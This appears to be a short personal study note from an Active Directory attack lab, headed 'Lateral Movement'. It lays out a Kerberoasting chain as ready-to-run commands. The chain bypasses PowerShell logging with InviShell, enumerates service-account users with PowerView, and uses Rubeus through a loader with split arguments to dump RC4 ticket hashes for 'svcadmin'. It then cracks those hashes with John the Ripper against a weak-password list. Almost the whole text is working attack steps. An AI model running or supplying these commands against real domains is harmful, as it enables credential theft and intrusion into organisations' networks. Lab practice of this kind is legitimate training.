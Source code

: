 [[Lateral Movement]]
```
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
```
```
. C:\AD\Tools\PowerView.ps1
```
the command below only gets user accounts running as service accounts. because cracking machine account passwords is hell. therefore only target user accounts.
```
Get-DomainUser -SPN
```
now Kerberoast the ==SAMACCOUNTNAME==
```
ArgSplit.bat -> kerberoast
```
```
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args %Pwn% /user:svcadmin /simple /rc4opsec /outfile:C:\AD\Tools\hashes.txt
```
==now open hashes.txt and remove 1433==.
```
C:\AD\Tools\john-1.9.0-jumbo-1-win64\run\john.exe --wordlist=C:\AD\Tools\kerberoast\10k-worst-pass.txt C:\AD\Tools\hashes.txt
```

